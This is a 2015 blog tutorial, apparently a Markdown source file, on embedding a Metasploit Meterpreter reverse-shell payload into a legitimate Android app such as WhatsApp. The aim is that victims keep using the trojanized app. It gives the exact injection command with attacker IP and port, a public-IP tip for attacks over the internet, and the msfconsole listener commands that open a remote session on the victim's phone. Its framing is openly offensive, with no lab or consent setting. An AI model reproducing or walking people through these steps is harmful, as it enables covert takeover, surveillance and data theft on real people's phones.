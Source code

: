 ```yaml
---
date: "Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)"
title: Embed a Metasploit Payload in an Original .apk File | Part 1 — The Easy Way
tags:
  - android
  - hacking
  - metasploit
  - kali-linux
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track.

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.

In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the _Meterpreter_, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means—usually involving Social Engineering—and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.

### Pre-requisites

Just to be clear, In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing—read, hacking. You should also install the latest version of _ApkTool_ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console —

```console
$ sudo apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of _ApkTool_, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.

### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a `WhatApp.apk` as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:

```console
$ ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used 192.168.0.104 as the Local IP address, i.e. your IP address and 4895 as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the `LPORT` can be set to any reasonable port no.

_NOTE_. If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the `LHOST` option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to `/root/original`.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an `<activity>` tag which contains both the texts `.MAIN` and `.LAUNCHER`. When you find that tag, look for the `android:name` attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-43-27.png)

### PROFIT?!

If you did everything correctly, you should now get an .apk file in your root directory with the name `backdoored_WhatsApp.apk`. It will install and run just like the original app.

As for the listener, you should use `multi/handler` and set the corresponding options accordingly. Just run the following commands —

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-18-143255.png)

### Note

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits

I found the script from the comments section of a thread in _NullByte_, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to _timwr_ and _Jack64_.
